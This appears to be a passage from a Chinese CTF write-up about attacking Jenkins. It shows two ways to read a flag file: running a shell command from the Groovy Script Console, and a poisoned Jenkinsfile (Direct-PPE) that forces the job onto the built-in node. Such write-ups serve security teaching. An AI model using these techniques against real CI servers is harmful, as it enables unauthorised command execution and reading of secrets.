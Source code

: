 ##### [解题思路一](#toc__1)

思路一是一个非预期解，根据题目中所知，可以清楚的知道 flag5.txt 是在节点“Built-In Node”的文件系统上，因此只需要直接执行命令获取该文件内容即可。  
找到对应的节点，在 Script Console 中执行 Groovy 脚本

```bash
println "cat /var/jenkins_home/flag5.txt".execute().text
```

[![1656766856202.png](assets/1702372834-e7b8ef45ee7cb426527162623425b72e.png)](https://storage.tttang.com/media/attachment/2022/07/06/04a38bd7-291c-41a3-8450-ce2b1bb3d092.png)

##### [解题思路二](#toc__2)

这题的解题思路其实还是依靠 Direct-PPE 来指定 CI 系统某个节点上来执行该管道，通常该情况是有仓库的权限，但是无 Jenkins 的节点执行权限。  
克隆仓库，创建分支并修改 Jenkinsfile

```bash
pipeline {
    agent {label 'built-in'}
    environment {
        PROJECT = "sanic"
    }
    stages {
        stage ('Install_Requirements') {
            steps {
                sh 'cat ~/flag5.txt'
            }
        }
    }
    post { 
        always { 
            cleanWs()
        }
    }
}
```
